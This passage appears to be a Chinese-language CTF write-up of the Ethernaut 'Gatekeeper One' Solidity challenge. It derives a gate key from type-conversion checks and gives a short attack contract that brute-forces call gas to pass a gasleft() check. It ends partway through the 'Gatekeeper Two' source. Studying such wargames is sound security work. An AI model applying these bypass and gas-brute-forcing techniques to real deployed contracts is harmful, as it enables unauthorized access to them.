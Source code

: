 三个modifier，第一个很好绕就不说了，第二个最后再说，先看第三个：

```javascript
      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
      require(uint32(uint64(_gateKey)) == uint16(tx.origin), "GatekeeperOne: invalid gateThree part three");
```

考察了solidity的类型转换，相当于`_gatekey`的最后4个字节拿出来和最后2个字节拿出来是相等的，因此最后是`00xx`即可，第二个的话，就相当于最后8字节和最后4字节不一样，前4个字节改一下就好了。
最后一个require就是最后2字节和tx.origin是一样的即可。
因此我这构造是这样：`0x0000001100003FB8`，最后2个字节和我地址的最后2字节一样,3FB8。这样就绕过了。

接下来就是第二个modifier，要求`gasleft().mod(8191) == 0`:
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210414170158306.png)
相当于call传过去的gas，到第二个modifier剩余的gas，相当于要找到从call那里到这个require所花费的gas。属实不太会。。
看了WP，师傅们是在本地调。换到Javascript VM，起2个合约：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210414170709701.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3JmcmRlcg==,size_16,color_FFFFFF,t_70)

Feng合约调用一下attack()函数，然后debug一下：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210414170643429.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210414170842890.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3JmcmRlcg==,size_16,color_FFFFFF,t_70)
还是太菜了，看不懂那些指令，看师傅们都是在DUP2那里停的，左下角有个remaining gas:
81874
81910+215-81874就是前面所花费的gas了。我这里是251，题目的环境也应该是0.6.0版本，不知道为什么师傅们都在0.4版本调，调出来是215，而且确实是对的。。。我也不想换版本了，就大范围的跑一下循环叭：

```javascript
pragma solidity ^0.6.0;
contract Feng {
    bytes8 public gatekey = 0x0000001100003FB8;
    address public target = 0xe9B1A344a91c338dA1873A7698cf3a30572EAb4e;
    function attack() public {
        for(uint i = 150;i <=300 ;i ++){
            target.call{gas:81910+i}(abi.encodeWithSignature("enter(bytes8)",gatekey));
        }
    }
}
```

也能跑成功，那些操作码等学会了再来看看。



# Gatekeeper Two

又学到了新东西。源码：

```javascript
pragma solidity ^0.6.0;

contract GatekeeperTwo {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    uint x;
```
